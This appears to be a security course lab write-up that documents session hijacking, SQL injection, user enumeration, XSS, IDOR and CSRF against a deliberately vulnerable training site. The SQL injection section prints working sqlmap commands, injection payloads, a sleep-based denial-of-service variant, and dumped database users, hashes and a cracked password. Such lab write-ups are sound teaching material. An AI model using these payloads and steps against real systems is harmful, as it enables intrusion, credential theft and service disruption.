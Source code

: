 #  Pen Testing Live Targets

Time spent: 15 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First, discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

# Vulnerability #1: Session Hijacking

Description: 

A Session Hijacking attack is an exploit that seeks to manipulate the web session control mechanism by sending a request to a web server with an authenticated SessionID, Cookie, or a combination of both. Web servers grant a token to a client browser after authentication; said token can be used to hijack another user's session. By masquerading your browser token as the authenticated token, the web server will recognize you as an authenticated user, granting you access. 

How to document and recreate this exploit:

1. First visit https://104.198.208.81/blue/public/staff/login.php and log in using the pperson credentials. 
2. Go to https://104.198.208.81/blue/public/hacktools/change_session_id.php to see your current PHPSESSIONID, and store that information for later. 
3. Open another browser such as Firefox or Chrome, visit https://104.198.208.81/blue/public/hacktools/change_session_id.php, and copy the authenticated PHPSESSIONID to replace your Session ID. 
4. Next visit https://104.198.208.81/blue/public/login.php; you should see that you are already logged in. 
5. We successfully bypassed authentication.


![Session Hijacking Exploit](https://user-images.githubusercontent.com/111711434/200113050-d1337254-f6f5-4351-b27f-76912f7a5866.gif)


# Vulnerability #2: SQL Injections

Description: 

SQL Injections are an attack that seeks to exploit vulnerabilities in an application's input validation for SQL queries. Malicious code is injected into a query that can reveal data found in the database, such as passwords, usernames, emails, etc.  

How to document and recreate this exploit:

1. First visit https://104.198.208.81/blue/public/staff/login.php and log in using the pperson credentials. 
2. Then head on over to URL https://104.198.208.81/blue/public/salesperson.php?id=1 
3. Using BurpSuite, GET request file as a TXT file. We will feed this information to a tool called SQLMap with the following parameter: sqlmap -r /home/kali/sqlmal-dev/request.txt -a (the -a parameter will return EVERYTHING, at times not recommended)
4. SQLMap detects a vulnerability in the 'id=' field and provides us with three SQL injections:
	
   * Parameter: id (GET)
     * Type: boolean-based blind
     * Title: AND boolean-based blind - WHERE or HAVING clause
     * Payload: id=3' AND 2971=2971 AND 'bcTH'='bcTH
    
    Comments after testing: Returned the information for User Irene Boling; see below:
   
   
  * Irene Boling
  * 555-736-2301
  * iboling@salesperson.com

   
   
   * Type: time-based blind
   * Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   * Payload: id=3' AND (SELECT 8396 FROM (SELECT(SLEEP(5)))PBWw) AND 'pCMl'='pCMl 
   
   
     Comments after testing: Changed (SLEEP(5))))PBWw) to SLEEP(200000))))PBWw, and it created a Denial of Service for the time set. 
   ![Denial of Service after SQL injection  ](https://user-images.githubusercontent.com/111711434/200140448-3da3ba36-f3b6-4bcf-a079-b24d6592906c.png)

   * Type: UNION query
   - Title: Generic UNION query (NULL) - 5 columns
   - Payload: id=-8495' UNION ALL SELECT  CONCAT(0x716b766a71,0x6b544944475a6778655979637a6558776b595163416a567459494a735864556b4f55666875547352,0x7171717a71),NULL,NULL,NULL,NULL-- -


Comments after testing: Redirects to the 'Find a Salesperson' web page.

The scan revelead the following information that can further assist us:
* Web Server OS : Linux Ubuntu 16.04 or 16.10
* Web App Technology: Apache 2.4.18 server
* MySQL version: 5.0.12

Databases:  

* [INFO] fetching database names
* [INFO] resumed: 'globitek_blue'
* [INFO] resumed: 'information_schema'
* [INFO] resumed: 'globitek_blue'
* [INFO] resumed: 'globitek_green'
* [INFO] resumed: 'globitek_red'
* [INFO] resumed: 'mysql'
* [INFO] resumed: 'performance_schema'
* [INFO] resumed: 'sys'



Database management users:                                                                                                                                                                                                     
* 'debian-sys-maint'@'localhost'
* 'mysql.session'@'localhost'
* 'mysql.sys'@'localhost'
* 'root'@'localhost'


Moreover, SQLMap also located & revealed the following password hashes:

[INFO] fetching database users password hashes
  
[INFO] resumed: 'mysql.sys','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'

[INFO] resumed: 'debian-sys-maint','*7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C'

[INFO] resumed: 'mysql.session','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'





Using the integrated dictionary-based password cracker (mysql_passwd), the password for root was found:

database management system users password hashes:                                                                                                                               


* debian-sys-maint [1]: password hash: *7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C
* mysql.session [1]: password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
* mysql.sys [1]: password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
* root [1]: password hash: *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
*                            clear-text password: password




## Green

# Vulnerability #1: User Enumaration 

Description:

User enumeration is a method of discovering users on a database by analyzing the errors returned at a login prompt. An example would be entering credentials and the error displaying as "Unknown user" but trying different credentials and getting a "Password Incorrect or password does not match", which confirms that the user exists in the system. We can then work towards obtaining their password credentials through other means.

How to document and recreate this exploit:

1. Visit https://104.198.208.81/green/public/staff/login.php
2. Attempt to log on with a random username & password; you will notice that the error returns as "Login was unsuccessful." However, upon attempting to enter a known user, such as pperson with a wrong password, the same error returned but in bold(different CSS class), confirming the user exists in the database. 


![User Enumeration ](https://user-images.githubusercontent.com/111711434/200143718-b1ebb1ae-5fd7-4d2f-a9ee-1dfd6b6dd1f6.gif)



# Vulnerability #2: Cross Site Scripting (XSS) 

Description: 

Cross-Site Scripting(XSS) is an exploit in which a script can be executed via a web browser on behalf of the web application. The effects of XSS can result in account compromise, deletion, privilege escalation, malware infection, and more.  

Source: https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/

How to document and recreate this exploit:

1. Visit https://104.198.208.81/green/public/
2. Go to https://104.198.208.81/green/public/contact.php; the 'Contact' form is a possible injection point.
   ![image](https://user-images.githubusercontent.com/111711434/200144285-d3869f55-8a9f-479e-911b-a2b0b612a750.png)
     
3. Fill out the fields:
  * Name: Test
  * Email: test@yahoo.com
  * Feedback: <script>alert('In plain sight.');</script  (this is a blind XSS script test) 
4. Hit submit.
5. Log in using the pperson credentials.
6. Head to the Feedback section.
7. We confirmed that the site is vulnerable to XSS. 

![Green XSS](https://user-images.githubusercontent.com/111711434/200143880-9a29cfb5-4871-464d-9bca-4545b404deeb.gif)



## Red

# Vulnerability #1: Insecure Direct Object Reference (IDOR)

	
Description: 

Insecure Direct Object References are a type of vulnerability in which user-supplied input can be used to access data directly, such as (id?=, uid=, pid, etc). If access control is not configured correctly, users can see across other pages by changing the value of the ‘id=’. 

How to document and recreate this exploit:
	
1. Visit https://104.198.208.81/red/public/index.php
2. Head over to https://104.198.208.81/red/public/territories.php and click on any user of interest, in this case I picked bobby (https://104.198.208.81/red/public/salesperson.php?id=1) 
3. Preliminary testing indicates that salesperson.php?id= may be vulnerable. 
 * Tested various values in the ID= field of the URL
 * ID=10 revealed information about 
   Testy McTesterson, and user that is not supposed to be public until September 1st. 
   ![image](https://user-images.githubusercontent.com/111711434/200144425-b4fa5ff2-4ff8-41f7-80bf-95b876e7d9cc.png)
 
	

	
* ID=11 revelead information on Lazy Lazyman, an employee that was fired.
  ![image](https://user-images.githubusercontent.com/111711434/200144538-ad5dce27-82e2-43c7-bca9-d066dccad206.png)

	
	
	
# Vulnerability #2: Cross-Site Request Forgery

Description: 

CSRF is an attack that preys on social engineering to execute HTML code to perform malicious actions on an authenticated user. The attack surface of CSRF spans from changing usernames to emails, passwords, and any other action allowed by the user on the site. 
	
	

https://www.geeksforgeeks.org/what-is-cross-site-request-forgery-csrf/
	
How to document and recreate this exploit:	
	
Upon inspection of the HTML form at URL https://35.184.88.145/red/public/staff/salespeople/edit.php?id=1, I noticed that the site accepts any value for the CSRF token. This allowed for the following HTML page to be created to perform a Cross-Site Request Forgery attack to edit the user's details. 

![image](https://user-images.githubusercontent.com/111711434/200218318-aa40edc9-f51e-4789-a154-83c5181e0f09.png)

Demonstration:
![red csrf](https://user-images.githubusercontent.com/111711434/200218427-05666440-daf7-43ac-b9d3-2eabca1fa70c.gif)


## Notes
```
Sources utilized:
1. https://www.geeksforgeeks.org/sql-injection-cheat-sheet/
2. https://www.sqlinjection.net/union/
3. https://github.com/payloadbox/sql-injection-payload-list
4. https://owasp.org/www-community/attacks/Session_hijacking_attack
5. https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
6. https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

